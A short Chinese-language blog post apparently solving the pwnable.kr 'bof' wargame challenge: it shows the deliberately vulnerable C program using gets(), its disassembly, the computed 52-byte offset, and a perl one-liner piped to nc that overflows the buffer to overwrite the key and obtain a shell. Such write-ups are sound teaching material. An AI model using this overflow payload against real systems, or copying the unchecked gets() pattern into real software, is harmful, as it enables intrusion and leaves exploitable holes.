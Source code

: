 ```yaml
---
title: bof
author: rk700
layout: post
tags:
  - exploit
  - pwnable.kr
---
```


代码如下

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme); 
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else {
        printf("Nah..\n"); 
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
{% endhighlight %}

可以看到很明显的溢出。我们之需要看汇编确定具体距离就行

<pre>
0000062c &lt;func&gt;:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
</pre>

buffer到目的地的距离是`0x2c+0x8=52`。所以

<pre>$ (perl -e 'print "A"x52 . "\xbe\xba\xfe\xca\n"'; cat - ) | nc pwnable.kr 9000</pre>

